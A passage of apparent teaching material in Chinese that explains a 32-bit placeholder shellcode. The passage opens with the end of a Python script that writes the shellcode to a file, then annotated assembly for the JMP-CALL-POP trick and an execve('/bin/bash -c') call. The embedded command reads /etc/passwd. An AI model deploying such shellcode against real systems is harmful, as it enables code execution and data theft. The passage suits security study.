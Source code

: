 ```python
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd     *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_32', 'wb') as f:
  f.write(content)
```

上述占位符式Shellcode（以32位为例）是一种巧妙的设计，通过**动态计算字符串地址**和**运行时修改占位符**的方式，实现灵活的命令执行。其核心原理如下：

1. 初始跳转与地址获取（JMP-CALL-POP 技巧）

```asm
"\xeb\x29"             # jmp short 0x29         ; 跳转到末尾的 CALL 指令
...
"\xe8\xd2\xff\xff\xff" # call 0xffffffd2        ; 实际会跳转到前面的代码，用于获取字符串地址
```

   - jmp short 0x29 跳过后续数据，直接执行末尾的 call 指令。
   - call 指令会将返回地址（即紧随其后的字符串 /bin/bash* 的地址）压栈，然后跳转回前面的代码（通过相对地址计算）。
   - 通过 pop ebx（对应 5b）获取字符串起始地址（即 /bin/bash* 的地址）。

2. 动态构建参数数组

```asm
"\x31\xc0"             # xor eax, eax            ; eax = 0
"\x88\x43\x09"         # mov [ebx+0x9], al       ; 将 ebx+9 处的 '*' 替换为 0x00（终止符）
"\x88\x43\x0c"         # mov [ebx+0xc], al       ; 同上，处理 "-c*"
"\x88\x43\x47"         # mov [ebx+0x47], al      ; 处理命令字符串末尾的 '*'
```

   - 通过 ebx（指向 /bin/bash*）计算偏移，将 * 替换为 0x00，分割字符串为：
   - argv[0] = "/bin/bash"
   - argv[1] = "-c"
   - argv[2] = "/bin/ls -l; echo Hello 32; ..."

3. 设置 execve 参数

```asm
"\x89\x5b\x48"         # mov [ebx+0x48], ebx     ; argv[0] 地址（/bin/bash）
"\x8d\x4b\x0a"         # lea ecx, [ebx+0x0a]     ; argv[1] 地址（-c）
"\x89\x4b\x4c"         # mov [ebx+0x4c], ecx
"\x8d\x4b\x0d"         # lea ecx, [ebx+0x0d]     ; argv[2] 地址（命令字符串）
"\x89\x4b\x50"         # mov [ebx+0x50], ecx
"\x89\x43\x54"         # mov [ebx+0x54], eax     ; argv[3] = NULL
"\x8d\x4b\x48"         # lea ecx, [ebx+0x48]     ; ecx 指向 argv 数组
"\x31\xd2"             # xor edx, edx            ; edx = 0（环境变量）
"\x31\xc0"             # xor eax, eax
"\xb0\x0b"             # mov al, 0x0b            ; execve 系统调用号
"\xcd\x80"             # int 0x80                ; 触发系统调用
```
